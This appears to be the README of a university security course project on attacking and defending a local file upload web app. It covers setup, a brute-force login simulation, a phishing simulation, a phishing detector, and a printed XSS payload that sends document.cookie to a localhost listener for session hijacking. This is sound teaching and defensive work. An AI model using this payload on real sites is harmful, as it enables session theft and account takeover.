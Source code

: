 # ELEC0138 Group 8 – Security and Privacy challenges in a File Upload App

## Overview

This project aims to analyze and address Security and Privacy challenges in a web-based app (File Upload App) by applying threat modeling and mitigation methods. 

Several cyber attacks targeting common vulnerabilities are designed and implemented. Also, relevant mitigation measures are presented.

A vedio presentation of this project can be seen:(https://youtu.be/MD4qnzbECH4)


## Group Members

- Wenjing Hu
- Zoe Qian
- Andreas Tyrovolas


## Features

```
ELEC0138_Group8/
├── Attack/            # Contains different attacks and relevant mitigation methods
├── static/            # Functions of uploading documents
├── templates/         # HTML templates for the web interface
├── environment.yml    # Conda environment definition
├── initialize_db.py   # Script to initialize the database
├── requirements.txt   # Python package dependencies
└── system.py          # Main application script
```


## Steps

1. **Clone the Repository**

   ```bash
   git clone https://github.com/Wenjing-1225/ELEC0138_Group8.git
   cd ELEC0138_Group8
   ```


2. **Set Up the Environment**

   Create a Conda environment using the provided `environment.yml` file:

   ```bash
   conda env create -f environment.yml
   conda activate elec0138_group8
   ```


   Alternatively, install dependencies using `requirements.txt`:

   ```bash
   pip install -r requirements.txt
   ```


3. **Run the Application**

   Start the main application:

   ```bash
   python system.py
   ```


   The web interface should now be accessible at `http://localhost:5000/`.


4. **Run the Attack Simulation**

   - **Brute-force Login Attack**:
     
     1. Edit `brute_force.py` to set the target username (e.g. `victim@example.com`)  
     2. Run `brute_force.py`  
        → The script will simulate password guessing attempts by sending repeated login requests using common passwords.  
        → A valid match will be printed to the terminal once found.  
        > This simulates a real-world brute force scenario using multithreading and common credential dictionaries.

   - **Session Hijacking via XSS**:
     
     1. Register a malicious username like:  
        ```html
        <script>new Image().src="http://localhost:8000/steal?cookie="+document.cookie</script>
        ```
     2. Run `listener.py`  
        → This starts a listener on port 8000 to capture incoming cookies.

     3. When a legitimate user visits the homepage, the malicious script will trigger and send their session cookie to the attacker.
     4. Use `hijack_session.py`  
        → Load the captured cookie and simulate a GET request to `/`, gaining unauthorized access as the victim.
   - **Phishing Simulation**:
     
     1. Run `send_phishing.py`  
        → You can modify the `receiver_email` variable to the desired email address.  
        *Please make sure that you have the recipient’s explicit consent before sending any simulated phishing emails.*

     2. Run `app.py`  
        → This will launch the phishing web application.


4. **Run the Defense System**

   - **Phishing Detection System**:

     1. Run `model.py`  
        → This initializes and loads the phishing detection model.

     2. Run `combined_defences.py`  
        → This starts the Flask web interface for users to input URLs and receive detection results in Security Center.



